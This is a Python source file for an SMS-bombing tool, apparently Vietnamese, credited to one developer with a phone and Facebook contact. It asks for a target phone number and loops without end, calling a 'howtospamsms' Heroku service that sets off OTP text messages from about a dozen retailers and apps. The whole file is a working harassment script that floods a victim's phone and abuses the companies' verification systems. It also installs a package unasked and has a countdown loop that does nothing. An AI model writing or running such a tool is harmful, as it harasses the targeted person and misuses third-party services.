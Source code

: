 from pystyle import Add, Center, Anime, Colors, Colorate, Write, System
from calendar import weekheader
from time import sleep
import requests
stt=0
from time import sleep
import requests
import os, sys, requests, random
import time
from random import choice, randint, shuffle
try:
  from pystyle import Center, Anime, Colors, Colorate
except:
  os.system('pip install pystyle')  
logo="""
                            ░ ░░ ░ ░░ ░░ ░ 
                  ░ ░░ ░░░  ░░░░  ░░ ░░
          ░   ░  ░  DINH HOANG HAI▒  ░   ░
░░░░░ ░░  ░░ ▒▒░ ▒ ░▒▓▒ ▒ ▒ ▒▒▒  ▒▒▒ ░░ ▒   
 ░░░  ░░ ░░░ ▒░  ░ ░░▒░ ░ ░ ▓ ░▒░  ░ ░  ░   ░    
                 ░   ░  ░░░ ░ ░ ▒ ▒ ░░     ░    ░      
                     ░       ░     ░ ░        ░  ░               """      
print(Colorate.Diagonal(Colors.red_to_yellow, Center.XCenter(logo)))      
Write.Print('==========================================================================='+'\n' ,Colors.red_to_yellow, interval=0.001)
Write.Print('Bản Quyền: Nguyễn Minh Đức '+'\n' ,Colors.red_to_yellow, interval=0.001)
Write.Print('Zalo: 0829179422 '+'\n' ,Colors.red_to_yellow, interval=0.001)
Write.Print('Facebook: https://www.facebook.com/NguyenMinhDucVoDichThienHa '+'\n' ,Colors.red_to_yellow, interval=0.001)
Write.Print('==========================================================================='+'\n' ,Colors.red_to_yellow, interval=0.001)
ip = requests.get('https://api.ipify.org').text.strip()
loc = requests.get('https://ipapi.com/ip_api.php?ip=' + ip, headers={'Referer': 'https://ip-api.com/', 'Content-Type': 'application/json; charset=utf-8', 'User-Agent': 'Mozilla/5.0 (Linux; Android 7.1.2; Redmi 4X) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.92 Mobile Safari/537.36'}).json()['country_name'].lower()
Write.Print('IP của bạn: '+ip+'\n' ,Colors.red_to_yellow, interval=0.001)
Write.Print('==========================================================================='+'\n' ,Colors.red_to_yellow, interval=0.001)
Write.Print('Location: '+loc+'\n' ,Colors.red_to_yellow, interval=0.001)
Write.Print('==========================================================================='+'\n' ,Colors.red_to_yellow, interval=0.001)
phone=Write.Input("Nhập SDT (Lưu Ý Bỏ Số 0 Ở Đầu): " ,Colors.red_to_yellow, interval=0.001)
time_delay = Write.Input('Time Delay: ' ,Colors.red_to_yellow, interval=0.001)
Write.Print('==========================================================================='+'\n' ,Colors.red_to_yellow, interval=0.001) 
while True:
    stt=stt+20
    requests.get(f'https://howtospamsms.herokuapp.com/the-gioi-di-dong?phone={phone}')  
    Write.Print(f"[ {stt} ] [ NMD TOOL ] => Thanh Cong Send OTP The-Gioi-Di-Dong"+" "+phone+"\n" ,Colors.red_to_yellow, interval=0.001)
    
    stt=stt+20
    requests.get(f'https://howtospamsms.herokuapp.com/nhap-hang-247?phone={phone}')
    Write.Print(f"[ {stt} ] [ NMD TOOL ] => Thanh Cong Send OTP Nhap-Hang-247"+" "+phone+"\n" ,Colors.red_to_yellow, interval=0.001)
    
    stt=stt+20
    requests.get(f'https://howtospamsms.herokuapp.com/elines?phone={phone}')
    Write.Print(f"[ {stt} ] [ NMD TOOL ] => Thanh Cong Send OTP Elines"+" "+phone+"\n" ,Colors.red_to_yellow, interval=0.001)
    
    stt=stt+20
    requests.get(f'https://howtospamsms.herokuapp.com/meta-vn?phone={phone}')
    Write.Print(f"[ {stt} ] [ NMD TOOL ] => Thanh Cong Send OTP Meta-VN"+" "+phone+"\n" ,Colors.red_to_yellow, interval=0.001)
    
    stt=stt+20
    requests.get(f'https://howtospamsms.herokuapp.com/bach-hoa-xanh?phone={phone}')
    Write.Print(f"[ {stt} ] [ NMD TOOL ] => Thanh Cong Send OTP Bach-Hoa-Xanh"+" "+phone+"\n" ,Colors.red_to_yellow, interval=0.001)
    
    stt=stt+20
    requests.get(f'https://howtospamsms.herokuapp.com/grab-food?phone={phone}')
    Write.Print(f"[ {stt} ] [ NMD TOOL ] => Thanh Cong Send OTP Grab-Food"+" "+phone+"\n" ,Colors.red_to_yellow, interval=0.001)
    
    stt=stt+20
    requests.get(f'https://howtospamsms.herokuapp.com/tiki?phone={phone}')
    Write.Print(f"[ {stt} ] [ NMD TOOL ] => Sen OTP Tiki"+" "+phone+"\n" ,Colors.red_to_yellow, interval=0.001)
    
    stt=stt+20
    requests.get(f'https://howtospamsms.herokuapp.com/go2joy?phone={phone}')
    Write.Print(f"[ {stt} ] [ NMD TOOL ] => Thanh Cong Send OTP Go2joy"+" "+phone+"\n" ,Colors.red_to_yellow, interval=0.001)
    
    stt=stt+20
    requests.get(f'https://howtospamsms.herokuapp.com/vntrip?phone={phone}')
    Write.Print(f"[ {stt} ] [ NMD TOOL ] => Thanh Cong Send OTP Vntrip"+" "+phone+"\n" ,Colors.red_to_yellow, interval=0.001)
    
    stt=stt+20
    requests.get(f'https://howtospamsms.herokuapp.com/agoda?phone={phone}')
    Write.Print(f"[ {stt} ] [ NMD TOOL ] => Thanh Cong Send OTP Agoda"+" "+phone+"\n" ,Colors.red_to_yellow, interval=0.001)
    
    stt=stt+20
    requests.get(f'https://howtospamsms.herokuapp.com/vieon?phone=0{phone}')
    Write.Print(f"[ {stt} ] [ NMD TOOL ] => Thanh Cong Send OTP Vieon"+" "+phone+"\n" ,Colors.red_to_yellow, interval=0.001)
    for i in range(120, 0):
            print(f"Vui Lòng Đợi {i}\r")
